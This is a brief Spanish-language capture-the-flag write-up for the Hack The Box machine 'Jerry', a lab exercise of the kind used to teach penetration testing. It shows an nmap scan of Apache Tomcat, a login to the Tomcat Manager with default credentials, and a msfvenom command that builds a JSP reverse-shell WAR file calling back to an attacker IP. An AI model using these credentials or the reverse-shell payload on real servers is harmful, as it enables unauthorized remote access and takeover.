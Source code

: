 # Jerry ![Avatar](https://www.hackthebox.eu/storage/avatars/59f03a24178dbb2bdc94968c201e21f8_thumb.png)     

## Scan

```nmap
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```
## Enumeration

Lo unico que tenemos para enumerar en principio es un Apache Tomcat, probemos con las password por defecto de Tomcat 
```
tomcat:s3cret
```
## Exploit

Como durante la enumeración obtuvimos acceso al Manger de Tomcat, ahora tenemos la posibilidad de subir una shell en formato war al servidor, para ello vamos a generar una con msfvenom
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war
```
## Privesc

No hay privesc en esta máquina ya que tenemos acceso al administrador directamente

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
```
Y solo faltaría conseguir leer la flag
```cmd
C:\Users\Administrator\Desktop\flags>type 2*
```
